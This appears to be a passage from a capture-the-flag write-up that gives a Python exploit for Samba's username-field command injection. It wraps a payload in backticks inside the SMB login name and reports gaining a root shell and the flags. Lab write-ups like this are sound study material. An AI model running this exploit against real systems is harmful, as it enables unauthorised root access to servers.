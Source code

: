 ```python
    payload = sys.argv[2]
else:
    ip = sys.argv[1]
    port = sys.argv[2]
    payload = sys.argv[3]

user = "`" + payload + "`"
conn = SMBConnection(user, "na", "na", "na", use_ntlm_v2=False)

try:
    print("[*] Sending the payload")
    conn.connect(ip, int(port))
    print("[*] Payload was send successfully")
    quit()
except Exception as e:
    print("[*] Something went wrong")
    print("ERROR:")
    print(e)
    quit()
```

And I got a shell as root.

![Untitled](uploads/Untitled%202.png)

And after that I collected both the flags.

![Untitled](uploads/Untitled%203.png)

### Additional Way
